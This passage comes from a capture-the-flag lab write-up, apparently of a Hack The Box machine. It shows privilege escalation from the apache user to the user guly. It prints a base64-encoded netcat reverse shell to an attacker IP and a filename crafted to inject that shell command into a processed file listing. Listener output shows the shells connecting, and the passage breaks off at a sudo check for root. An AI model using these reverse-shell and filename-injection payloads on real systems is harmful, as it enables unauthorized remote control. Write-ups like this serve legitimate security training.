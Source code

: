So I tested some more shells as apache. This one worked well. I base64 encoded what I wanted to run:
```
echo nc -e /bin/bash 10.10.16.6 4444 | base64 -w0

bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE2LjYgNDQ0NAo=
```

Now from apache I can run:
`echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE2LjYgNDQ0NAo= | base64 -d | bash`
Then we get a stable shell
```
nc -lnvp 4444                                    
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.146] 60484
id
uid=48(apache) gid=48(apache) groups=48(apache)

```

So let's combine them and  I’ll touch a file that will get a shell:
```
10_10_16_6.php.png
10_10_16_6.png
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE2LjYgNDQ0NAo= | base64 -d | bash; b
index.html
```

Finally we successfully get the shell as guly
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.146] 60488
script /dev/null /bin/bash
sh-4.2$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```

3,shell as root
Firstly, I would check `sudo -l` and check guly can do what as root.
```
sudo -l

Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```
